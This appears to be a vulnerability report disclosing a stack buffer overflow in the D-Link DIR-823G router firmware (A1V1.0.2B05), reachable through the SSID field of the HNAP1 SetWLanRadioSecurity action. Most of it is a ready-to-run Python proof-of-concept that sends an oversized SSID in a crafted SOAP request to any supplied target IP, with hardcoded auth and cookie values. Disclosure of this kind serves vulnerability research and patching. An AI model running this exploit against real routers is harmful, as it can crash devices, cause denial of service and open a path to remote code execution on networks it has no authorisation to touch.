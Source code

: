 # Bug Report: Buffer Overflow in D-Link DIR-823G Router
A buffer overflow vulnerability has been identified in the D-Link DIR-823G router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: D-Link DIR-823G Wireless Router
- **Affected Version**: A1V1.0.2B05
- **Download Source**: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/HNAP1/SetMultipleActions` endpoint and handles the `SetWLanRadioSecurity`. When `SSID` in the handle function `sub_45ED70` is specified with excessive data, the buffer overflow occurs during string concatenation operations.

![alt text](image-1.png)
## poc
![alt text](image.png)

## Reproduce
```python
#!/usr/bin/env python3

import requests
import sys

def exploit(target):
    url = f"http://{target}/HNAP1/"
    
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'text/xml; charset=utf-8',
        'SOAPAction': '"http://purenetworks.com/HNAP1/SetMultipleActions"',
        'HNAP_AUTH': '8D2D80BB8F1D63D9FF6E08DE6B821073 1675516820',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': f'http://{target}',
        'Connection': 'close',
        'Referer': f'http://{target}/SNTP.html',
        'Cookie': 'uid=GcfQ7q3TwY; PrivateKey=455D512F7EA7AA45CC1B4CBB4562DE49; timeout=106'
    }
    
    payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetMultipleActions xmlns="http://purenetworks.com/HNAP1/"><SetWLanRadioSecurity xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_2.4GHz</RadioID><SSID>'+ 'A' * 0x1000 + '</SSID></SetWLanRadioSecurity></SetMultipleActions></soap:Body></soap:Envelope>'
    
    response = requests.post(url, data=payload, headers=headers)
    print(f"Status: {response.status_code}")
    print(response.text)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <target_ip>")
        sys.exit(1)
    
    exploit(sys.argv[1])
```
